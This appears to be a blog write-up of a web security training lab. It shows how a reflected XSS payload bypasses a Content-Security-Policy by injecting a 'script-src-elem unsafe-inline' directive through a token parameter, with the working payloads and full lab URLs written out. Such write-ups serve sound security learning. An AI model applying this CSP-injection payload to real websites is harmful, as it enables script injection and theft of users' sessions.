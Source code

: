Payloads that worked:

```
search=<script>alert(1)</script>&token=1;script-src-elem 'unsafe-inline'
```

Methodology and explanation:

Using the script tags and a simple payload in the search functionality doesn't work. There is no encoding taking place.

![](/assets/images/XSS/Pasted%20image%2020250728025616.png)

However checking the response in burp shows that a header:

```
Content-Security-Policy: default-src 'self'; object-src 'none';script-src 'self'; style-src 'self'; report-uri /csp-report?token=
```

![](/assets/images/XSS/Pasted%20image%2020250728025845.png)

The `token=` field is interesting. We can try to inject something in it from the URL. 

```
https://LABID.web-security-academy.net/?search=%3Cscript%3Ealert%281%29%3C%2Fscript%3E&token=1
```

We can see that it works.

![](/assets/images/XSS/Pasted%20image%2020250728025921.png)

We can directly manipulate the CSP. We will now use `script-src-elem 'unsafe-inline'` to whitelist inline javascript. That's the javascript ran through \<script\> tags.

Payload in the URL to whitelist inline javascript:

```
token=1;script-src-elem 'unsafe-inline'
```

The final URL that gives us the XSS popup looks like this:

```
https://LABID.web-security-academy.net/?search=%3Cscript%3Ealert%281%29%3C%2Fscript%3E&token=1;script-src-elem%20%27unsafe-inline%27
```

## Conclusion:

While I was already familiar with XSS, especially the part about session hijacking by stealing cookies, which was something I had done on the CPTS path, majority of the information in these labs was new for me. This includes breaking angularJS sandbox, bypassing CSP, dangling markup attack and using CSRF tokens. I learnt a lot and will try to cover more web vulnerabilities in future.
